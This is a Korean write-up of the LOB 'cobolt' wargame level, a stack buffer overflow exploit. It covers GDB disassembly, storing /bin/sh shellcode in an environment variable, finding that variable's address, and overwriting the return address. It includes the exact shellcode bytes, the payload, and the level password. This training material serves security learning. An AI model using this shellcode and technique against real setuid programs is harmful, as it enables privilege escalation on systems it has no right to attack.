 ```yaml
---
title: "LOB small buffer Write-Up"
tags: [lob]
categories: [System]
---
```


# Index

1. [문제 분석](#문제-분석)
2. [GDB 분석](#gdb-분석)
3. [Exploit](#exploit)

* * *

## 문제 분석

문제에 접속하면 이전과 같이 하나의 실행 파일과 해당 실행 파일의 소스코드 파일이 존재하는 것을 확인할 수 있습니다.

```
[gremlin@localhost gremlin]$ ls -l
total 32
-rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
-rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
```

프로그램을 실행시키면 `argv error`가 출력됩니다. 이전 문제와 같이 특정 argument 수를 만족해야하는 것으로 예상할 수 있습니다. 확인을 위해 문자열을 전달한 결과 readback하는 것을 확인할 수 있었습니다.

```
[gremlin@localhost gremlin]$ ./cobolt TEST
TEST
```

이전 프로그램과 같은 동작을 확인할 수 있었기에 문제의 제목이 "small buffer" 임을 감안하고 gdb를 사용하여 분석해보았습니다.

## GDB 분석

소스코드를 확인하기 이전에 GDB를 사용하여 분석해보았습니다.

```
(gdb) disassemble main 
Dump of assembler code for function main:
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,16
0x8048436 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:	jg     0x8048453 <main+35>
0x804843c <main+12>:	push   0x80484d0
0x8048441 <main+17>:	call   0x8048350 <printf>
0x8048446 <main+22>:	add    %esp,4
0x8048449 <main+25>:	push   0
0x804844b <main+27>:	call   0x8048360 <exit>
0x8048450 <main+32>:	add    %esp,4
0x8048453 <main+35>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:	add    %eax,4
0x8048459 <main+41>:	mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:	push   %edx
0x804845c <main+44>:	lea    %eax,[%ebp-16]
0x804845f <main+47>:	push   %eax
0x8048460 <main+48>:	call   0x8048370 <strcpy>
0x8048465 <main+53>:	add    %esp,8
0x8048468 <main+56>:	lea    %eax,[%ebp-16]
0x804846b <main+59>:	push   %eax
0x804846c <main+60>:	push   0x80484dc
0x8048471 <main+65>:	call   0x8048350 <printf>
0x8048476 <main+70>:	add    %esp,8
0x8048479 <main+73>:	leave  
0x804847a <main+74>:	ret
```

이전 문제와 가장 눈에 띄게 차이가 보였던 점은 buffer의 크기입니다. `main+3`에서 실행되는 명령을 보면 stack의 크기로 16 Byte를 할당합니다.

기존에 사용했던 shellcode가 25 Byte인 것을 감안하면 SFP 4 Byte를 포함해도 20 Byte의 공간이기 때문에 다른 방법을 통해 풀이할 필요가 있었습니다.

## Exploit

주어진 Buffer의 크기에 제한받지 않고 입력할 수 있는 방법으로 Enviornment Variable를 사용하는 것이 있습니다.

프로그램이 실행될 때, Stack 영역에 Enviornment variable 또한 저장되는데 이곳에 shellcode를 저장하여 RET 주소를 변조하면 shell 획득이 가능합니다.

아래와 같은 방식으로 EGG 라는 이름의 환경 변수를 등록하였습니다. Shellcode는 이전과 같은 25 Byte shellcode를 사용하였습니다.

```
[gremlin@localhost gremlin]$ export EGG=`python -c 'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")'`
```

등록을 완료하였으면 해당 변수가 저장된 주소를 알아오기 위해 아래 C 코드를 작성하였습니다.

```c
#include <stdio.h>

int main(){
        printf("ENV ADDR: %p\n", getenv("EGG"));
        return 0;
}
```

컴파일 후 실행하면 주소를 획득할 수 있습니다.

```
[gremlin@localhost gremlin]$ ./env 
ENV ADDR: 0xbffffe7e
```

변조할 RET 주소와 RET 주소까지의 offset(16 Byte + SFP) 모두 준비되었으므로 이를 토대로 payload를 작성 후 실행하면 shell을 획득할 수 있습니다.

```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print("\x90"*20+"\x7e\xfe\xff\xbf")'`
~þÿ¿
bash$ id
uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
```
같이 같으나
